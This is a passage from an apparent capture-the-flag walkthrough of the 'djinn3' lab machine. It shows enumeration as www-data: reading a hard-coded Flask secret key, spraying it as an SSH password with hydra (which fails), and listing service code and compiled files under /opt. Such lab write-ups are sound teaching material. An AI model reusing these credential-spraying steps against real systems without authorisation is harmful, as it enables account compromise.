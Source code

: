Further enumeration reveals potential creds:

```bash
www-data@djinn3:/opt/.web$ cat webapp.py
from flask import Flask, render_template, request, render_template_string
import json


app = Flask(__name__, static_url_path="/static")
app.secret_key = "hackthedamnplanet"
<SNIP>
```

I test them against the user list:

```bash
$ hydra -L users -p hackthedamnplanet ssh://192.168.122.102
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-02 14:49:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://192.168.122.102:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-02 14:49:06
```

The password doesn't work.
Moving on to `/opt/`, there are some interesting things here. Here's code from the app running on port 31337:

```bash
www-data@djinn3:/opt/.tick-serv$ cat tickets.py
import sys
import signal
import os
import json
import random

FILE = "/opt/.web/data.json"
def authenticate(username: str, password: str):
    if username == "guest" and password == "guest":
        return True
    return False
<SNIP>
```
This means that there never was another user to login as, just guest.

I also find some compiled python binaries here owned by saint:

```bash
www-data@djinn3:/opt$ ls -la
total 24
drwxr-xr-x  4 root     root     4096 Jun  4  2020 .
drwxr-xr-x 23 root     root     4096 Sep 30  2020 ..
-rwxr-xr-x  1 saint    saint    1403 Jun  4  2020 .configuration.cpython-38.pyc
-rwxr-xr-x  1 saint    saint     661 Jun  4  2020 .syncer.cpython-38.pyc
drwxr-xr-x  2 www-data www-data 4096 May 17  2020 .tick-serv
drwxr-xr-x  4 www-data www-data 4096 Jun  4  2020 .web
```
